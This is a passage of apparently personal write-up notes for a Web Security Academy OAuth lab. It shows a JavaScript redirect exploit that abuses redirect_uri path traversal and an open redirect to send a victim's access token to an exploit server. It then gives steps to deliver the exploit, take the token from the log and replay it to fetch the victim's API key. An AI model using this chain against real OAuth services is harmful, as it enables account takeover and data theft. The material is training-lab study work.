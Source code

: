       { window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' }
	 else { window.location = '/?'+document.location.hash.substr(1) 
	 </script>
    ```
13. To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for `GET /?access_token=[...]`. Deliver the exploit to the victim, then copy their access token from the log.
14. In Repeater, go to the `GET /me` request and replace the token in the `Authorization: Bearer` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.

**Workflow**:
1. initial API get request
  ![](Pasted%20image%2020241216122752.png)
  2. initial oauth flow
	![](Pasted%20image%2020241216122828.png)
3. testing for redirect (adding /../)
	![](Pasted%20image%2020241216122850.png)
4. finding a valid redirect page (next post feature of the blog posts)
	![](Pasted%20image%2020241216122941.png)
5. chaining all exploits together (redirect_uri --> our exploit server)
	![](Pasted%20image%2020241216121556.png)
6. testing the redirect to the exploit server
	![](Pasted%20image%2020241216121351.png)
7. adding payload script for token extraction
	![](Pasted%20image%2020241216121332.png)
8. testing the method
	![](Pasted%20image%2020241216121506.png)
9. building the final exploit (more details to add)
	![](Pasted%20image%2020241216121933.png)
10. testing the final exploit form // delivering exploit to the victim and capture his token
	![](Pasted%20image%2020241216122038.png)
11. back to the API request --> inject the extracted token 
	![](Pasted%20image%2020241216122633.png)

If the hash is not present:
- The browser is redirected (`window.location`) to an OAuth authentication endpoint. This URL includes various parameters that are critical for the OAuth flow:
    - `client_id=YOUR-LAB-CLIENT-ID`: Identifies the client requesting authentication.
    - `redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/`: Specifies where the OAuth server should redirect the user after authentication. Here, it is set to a URL containing an additional path manipulation (likely for exploit purposes).
